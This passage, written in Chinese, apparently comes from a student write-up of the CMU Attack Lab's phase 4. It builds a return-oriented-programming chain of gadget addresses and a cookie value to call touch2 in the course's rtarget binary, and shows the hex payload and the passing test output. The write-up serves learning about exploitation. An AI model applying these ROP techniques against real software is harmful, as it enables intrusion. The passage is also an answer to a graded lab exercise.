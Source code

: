 | `getval_280` | `popq %rax` | `0x4019cc` |

可以发现我们只能使用两个指令 `movq %rax, %rdi` 和 `popq %rax` 来将 `cookie` 对应的值 `0x59b997fa` 写入 `%rdi` 中，那么很明显就是预先将 `0x59b997fa` 写入栈中，然后通过 `popq %rax` 从栈中放到寄存器 `%rax` 中，然后通过 `movq %rax, %rdi` 将其移动到寄存器 `%rdi` 中。

所以我们需要依次将以下数据写入到 `getbuf` 返回地址开始的位置中：

```shell script
# 该 gadget 对应执行的指令为： popq %rax
cc 19 40 00 00 00 00 00
# 对应弹出的数据 0x59b997fa
fa 97 b9 59 00 00 00 00
# 该 gadget 对应执行的指令为： movq %rax, %rdi
c5 19 40 00 00 00 00 00
# 对应函数 touch2 的入口地址
ec 17 40 00 00 00 00 00
```

综上可得出一个合法的解，并将其存储在 `phase4.txt` 中

![phase4](attacklab/phase4.png)

然后我们可以验证该解的正确性：

```shell script
> ./hex2raw -i phase4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:69 64 65 61 6C 69 73 6D 2D 78 78 6D 00 00 00 00 00 00 00 00 6D 78 78 2D 6D 73 69 6C 61 65 64 69 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
